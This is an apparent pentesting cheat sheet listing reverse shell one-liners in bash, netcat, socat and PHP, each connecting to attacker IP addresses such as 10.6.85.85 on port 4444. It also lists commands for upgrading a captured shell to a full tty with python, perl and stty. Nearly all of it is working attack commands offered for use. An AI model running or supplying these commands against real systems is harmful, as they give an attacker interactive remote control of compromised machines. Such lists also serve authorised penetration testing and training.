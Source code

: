Web shells 

Reverse shell commands  
bash
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):        
    nc -e /bin/sh 172.16.5.1 4242   
nc openbsd (no -e):     
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f     
socat                     
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444
PHP            
   php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
Also Ruby, Java and Python: Reverse shells cheat sheet    

Nesting shells                
  bash -p    /bin/sh -p 


Upgrading to a pseudo terminal / tty     
    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";'
  
  
  SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
